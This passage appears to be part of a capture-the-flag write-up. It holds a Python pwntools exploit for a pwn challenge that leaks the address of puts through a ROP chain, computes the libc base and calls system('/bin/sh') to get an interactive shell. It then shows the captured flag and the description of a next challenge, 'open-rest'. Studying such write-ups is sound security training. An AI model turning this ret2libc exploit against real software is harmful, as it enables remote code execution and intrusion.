 ```py

payload = padding + p64(rbp) + p64(main)

sh.sendline(payload)

payload = padding + p64(rbp+32) + p64(pop_rdi) + p64(puts) + p64(puts_main) + p64(main) * 20

sh.sendline(payload)

sh.recvline()
sh.recvline()
sh.recvline()
r = sh.recvline()[:-1]

puts = u64(r.ljust(8, b'\x00'))

print(hex(puts))

base = puts - libc.symbols['puts']

print(hex(base))

system = base + libc.symbols['system']
execve = base + libc.symbols['execl']

one_gadgets = [0xe3afe, 0xe3b01, 0xe3b04]

cmd = b'/bin/sh\x00' * 10
payload = padding + p64(rbp) + p64(pop_rdi) + p64(rbp + 0x48 + 8*5) + p64(ret)*4 + p64(system) + cmd

#payload = padding + p64(rbp) + p64(pop_r12_to_r15) + p64(0)* 4 + p64(base + one_gadgets[0])

#payload = padding + p64(rbp) + p64(base + one_gadgets[0])

sh.sendline(payload)

sh.interactive()
```

Flag: **CTF{5d312f4b79a334445d084d7eec892bc0a3bec1454e585c4117310b9600e6c1f0}**

<a name="open-rest"></a>
## open-rest (100 pts, 41 solves) - Pwn

Description:
```
Sometimes we also have modern applications that are vulnerable to binary exploitation techniques even if they are written in a difficult-to-understand framework.

Flag Format: CTF{sha256}
```
